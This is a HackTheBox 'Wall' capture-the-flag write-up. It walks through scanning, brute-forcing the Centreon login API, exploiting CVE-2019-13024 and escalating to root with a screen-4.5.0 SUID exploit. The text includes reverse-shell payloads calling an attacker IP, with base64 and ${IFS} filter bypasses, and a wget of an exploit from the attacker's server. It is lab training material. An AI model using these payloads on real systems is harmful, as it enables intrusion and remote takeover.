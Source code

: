 ```yaml
---
title: "Wall - HackTheBox"
date: 2019-12-07T17:00:00+02:00
tags: []
---
```


## Information gathering

Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.157
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-20 19:40 EDT
Nmap scan report for 10.10.10.157
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.53 seconds
```

The web server has the Apache's default homepage.

Running a quick discovery gives us some pages to visit:
```
$ gobuster dir -q -t 40 -w raft-medium-files.txt -u http://10.10.10.157
/index.html (Status: 200)
/panel.php (Status: 200)
/wp-forum.phps (Status: 403)
/aa.php (Status: 200)
```

```
$ gobuster dir -q -t 40 -w raft-medium-directories.txt -u http://10.10.10.157
/monitoring (Status: 401)
/server-status (Status: 403)
```

## Exploration

`/aa.php` and `/panel.php` do not contain anything useful and `/monitoring` is
protected by HTTP basic authentication, which I tried to bruteforce with no
success. After a bit of tinkering, I found that making a `POST` request to
`/monitoring` redirects you to a page containing a link to `/centreon`:

```
$ curl -X POST -L http://10.10.10.157/monitoring
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Visiting `/centreon` we find ourselves in front of a login form for the Centreon
platform, which is a system monitoring tool:

![](/images/hackthebox/wall/centreon.png)

Let's try to login with a random username and password, and intercept the
request with Burp:
![](/images/hackthebox/wall/login.png)

The login process uses a token that changes with every request, so we can not
use hydra to do a bruteforce. We might write a script that fetches the token and
makes the login request, but whenever I stumble upon new web applications, I
like to learn how the mechanisms behind them are implemented. Centreon, in this
case, have an API that can be used to authenticate users and get a token. We can
then use wfuzz to find valid combination of username and password.

Before we launch the bruteforce, let's check if the API endpoint is up and
running:
```
$ curl -d "username=test&password=test" "http://10.10.10.157/centreon/api/index.php?action=authenticate"
"Bad credentials"
```

Ok, the authentication API works. A quick search tells us that the default
username on Centreon is `admin`, so let's start a bruteforce on that:

```
$ wfuzz -c --hc 403  -w probable-v2-top1575.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 1575

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000048:   200        0 L      1 W      61 Ch       "password1"

Total time: 12.86365
Processed Requests: 1575
Filtered Requests: 1574
Requests/sec.: 122.4380
```

Nice! Look's like admin's password is `password1`! Let's use it to login.

## Exploiting

Here is the panel after logging in:
![](/images/hackthebox/wall/panel.png)
The menu on the right of the Centreon panel allows us to discover it's version
by going on Administration > About, and it's 19.04.0 commit `f2a106936`.

A search on Google immediately points us toward a remote code execution
identified by `CVE-2019-13024`:

> Centreon 18.x before 18.10.6, 19.x before 19.04.3, and Centreon web before
> 2.8.29 allows the attacker to execute arbitrary system commands by using the
> value "init_script"-"Monitoring Engine Binary" in main.get.php to insert a
> arbitrary command into the database, and execute it by calling the vulnerable
> page www/include/configuration/configGenerate/xml/generateFiles.php (which
> passes the inserted value to the database to shell_exec without sanitizing it,
> allowing one to execute system arbitrary commands).

The identification code for the exploit is `47069` on exploit-db, so let's
download it with `searchsploit -m 47069`. Let's have a look at the payload
section:
```python
payload_info = {
    "name": "Central",
    "ns_ip_address": "127.0.0.1",
    # this value should be 1 always
    "localhost[localhost]": "1",
    "is_default[is_default]": "0",
    "remote_id": "",
    "ssh_port": "22",
    "init_script": "centengine",
    # this value contains the payload , you can change it as you want
    "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
    "nagiostats_bin": "/usr/sbin/centenginestats",
    "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
    "centreonbroker_cfg_path": "/etc/centreon-broker",
    "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
    "centreonbroker_logs_path": "",
    "centreonconnector_path": "/usr/lib64/centreon-connector",
    "init_script_centreontrapd": "centreontrapd",
    "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
    "ns_activate[ns_activate]": "1",
    "submitC": "Save",
    "id": "1",
    "o": "c",
    "centreon_token": poller_token,
}
```

The `nagios_bin` field is the one that will be executed on the server.  The
first thing to do is to launch a netcat listener on our machine with `nc -lnvp
1337`.  

The first thing that we should do is to change all the URLs in the script by
prepending `/centreon` to them, as this is the location that it's installed to
on the machine.


Launching the exploit with our ip address and port, to get a reverse shell, does
not work, because there might be some characters that are not allowed in the
command. Let's try to create a string that could bypass the protections.  
We can encode with base64 our command to avoid using characters like `>` and
`&`:
```
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx
```

I used a bash reverse shell command to connect to our netcat listener because I
don't know which is the version of it on the server (if present at all), as the
syntax may vary from one to another.

Ok, now we have a base64 encoded reverse shell command. Let's add the decoding
command and pipe the result in bash:
```
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | sh
```

Now let's set `nagios_bin` to use this command and remove the `.format(ip,
port)` as it's not needed anymore:
```
"nagios_bin": "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | bash",
```

It still does not work, probably because of white spaces, so let's replace them with `${IFS}`:
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash",
```

This still does not work, probably because of some sort of command concatenation
error, so let's add a `;` after the bash command
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash;",
```

This time we finally have a connection from the server, so the exploit worked!

```
$ nc -lnvp 1337
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

## Privilege escalation
At first I saw this message `[+] We can connect to the local MYSQL service as
'root' and without a password!` and I tried to use mysql to get a shell, but I
could not get a stable output because of the shell running on netcat. I
continued reading LinEnum's output and I found an unusual executable in the
`SUID` files section:
![](/images/hackthebox/wall/linenum.png)

It is 'screen-4.5.0', and luckily, there's a handy local root exploit on
[exploit-db](https://www.exploit-db.com/exploits/41154). After downloading it on
our machine, let's start a web server with `python -m http.server 8080` and
let's download it on the remote machine with `wget
http://10.10.14.4:8080/41154.sh`. Just run it and a couple of seconds later we should
have a root shell! Let's read the flags:

```
wc -c /home/shelby/user.txt
33 /home/shelby/user.txt

wc -c /root/root.txt
33 /root/root.txt
```

I really couldn't find a way from `www-data` to `shelby`, except for some hashes
in `/etc/shadow` but I couldn't crack them, I guess I'll wait for Ippsec's
writeup!

Thanks for reading!

